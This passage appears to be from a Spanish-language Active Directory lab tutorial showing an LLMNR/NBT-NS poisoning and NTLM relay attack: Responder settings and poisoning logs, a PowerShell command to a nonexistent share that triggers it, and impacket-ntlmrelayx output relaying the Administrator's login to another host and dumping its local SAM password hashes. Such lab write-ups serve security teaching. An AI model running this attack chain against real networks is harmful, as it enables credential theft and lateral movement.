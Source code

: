 ```
    Responder IP               [192.168.5.205]
    Responder IPv6             [fe80::126b:3f32:5e50:9e6]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-5S54Y5ALWCG]
    Responder Domain Name      [0F4A.LOCAL]
    Responder DCE-RPC Port     [49200]

[+] Listening for events...
```

Ahora si nosotros con cualquier usuario, por ejemplo el `Administrador` en el `PowerShell` del `DC01` del `Administrador` ejecuta una ruta que no existe:

```powershell
dir \\fhuisjf\c$
```

Le fallara y si nos volvemos a donde tenemos las 2 herramientas veremos lo siguiente:

> Responder

```
[*] [NBT-NS] Poisoned answer sent to 192.168.5.5 for name FHUISJF (service: File Server)
[*] [LLMNR]  Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf
[*] [LLMNR]  Poisoned answer sent to 192.168.5.5 for name fhuisjf
[*] [MDNS] Poisoned answer sent to 192.168.5.5     for name fhuisjf.local
[*] [MDNS] Poisoned answer sent to 192.168.5.5     for name fhuisjf.local
[*] [MDNS] Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf.local
[*] [MDNS] Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf.local
[*] [LLMNR]  Poisoned answer sent to 192.168.5.5 for name fhuisjf
[*] [LLMNR]  Poisoned answer sent to fe80::2129:cfa3:af2a:edd8 for name fhuisjf
```

> impacket-ntlmrelayx

```
[*] Received connection from CORP/Administrator at DC01, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, attacking target smb://192.168.5.208
[*] Authenticating against smb://192.168.5.208 as CORP/ADMINISTRATOR SUCCEED
[*] All targets processed!
[*] SMBD-Thread-5 (process_request_thread): Connection from CORP/ADMINISTRATOR@192.168.5.5 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
[*] Done dumping SAM hashes for host: 192.168.5.208
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

